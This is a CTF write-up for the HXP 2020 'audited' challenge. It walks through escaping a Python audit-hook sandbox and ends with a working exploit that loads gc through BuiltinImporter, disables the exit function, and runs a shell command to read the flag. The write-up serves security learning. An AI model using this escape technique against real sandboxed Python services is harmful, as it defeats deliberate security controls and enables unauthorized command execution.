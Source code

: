 [HXP 2020 CTF](https://2020.ctf.link/) write ups
================================================

## Pwn

### audited

This was a fun little Python exercise, ultimately escaping a sandboxing attempt.

This was the code of the challenge:
```python
#!/usr/bin/python3 -u

import sys
from os import _exit as __exit

def audit(name, args):
    if not audit.did_exec and name == 'exec':
        audit.did_exec = True
    else:
        __exit(1)
audit.did_exec = False

sys.stdout.write('> ')
try:
    code = compile(sys.stdin.read(), '<user input>', 'exec')
except:
    __exit(1)
sys.stdin.close()

for module in set(sys.modules.keys()):
    if module in sys.modules:
        del sys.modules[module]

sys.addaudithook(audit)

namespace = {}
try:
    exec(code, namespace, namespace)
except:
    __exit(1)
__exit(0)
```

The program is quite simple:
It will first read our input from `stdin` and compile it for execution with `exec`.
It then sets up an `PySys_AddAuditHook()` using `sys.addaudithook()`

The hook itself just checks whether the triggering function is called `exec` and prevents any further invocations after the first `exec` by calling `__exit()`.
Note that the `exec` which executes our input is already registered.
This essentially means that we must not trigger an audit event or else the process will be terminated.
A list of invocations which cause an event can be viewed in the [official docs](https://docs.python.org/3/library/audit_events.html#audit-events).


To make things more interesting you can apply the following patch:
```
diff --git a/audited.py b/audited2.py
index 8a6425c..6f1ee31 100755
--- a/audited.py
+++ b/audited2.py
@@ -23,7 +23,7 @@ for module in set(sys.modules.keys()):

 sys.addaudithook(audit)

-namespace = {}
+namespace = {'__builtins__': {}}
 try:
     exec(code, namespace, namespace)
 except:
```

Because otherwise the `__builtins__` would be passed from the parent process as stated in the docs:
> If the globals dictionary does not contain a value for the key `__builtins__`, a reference to the dictionary of the built-in module builtins is inserted under that key. That way you can control what builtins are available to the executed code by inserting your own `__builtins__` dictionary into globals before passing it to `exec()`.

That would obviously make things way too easy :S


If you inspect the list of events you will notice that we are pretty much screwed.
We cannot really do anything.
We cannot even access object attributes.

But first things first.
Let's set up our list of builtins we will work with.
There is a common trick for that:
```python
x = 1
x.__class__.__mro__[1].__subclasses__()
```

Go check out which classes are available to us.

There is one which could be used to read files: `<class '_frozen_importlib_external.FileLoader'>`
If the flag would be at a known location we could simply dump the file using this guy.

But thanks **hxp**, it is not..

Stepping back, the only possible exploitation path is to prevent the process from exiting if we trigger an audit event.
Luckily we are not *really* inside a sandbox, so all the objects of the parent process are happily available to us.
One such option is the `gc` module (garbage collection).
It provides a pretty handy method `get_objects()` which basically returns all the currently allocated objects.

But how do we actually import it?
Using a `<class '_frozen_importlib.BuiltinImporter'>` of cause!
Luckily this one also does not trigger an audit event. How convenient is that?

With all the objects playing easy to get we can simply overwrite the `__exit` function and do whatever we want :)

My final exploit:
```python
x = 1
y = x.__class__.__mro__[1].__subclasses__()[84]()
gc = y.load_module('gc')

for obj in gc.get_objects():
    try:
        obj.__exit = lambda _: None
    except:
        pass

os = y.load_module('builtins').__import__('os')
os.system('cat /flag*')
```
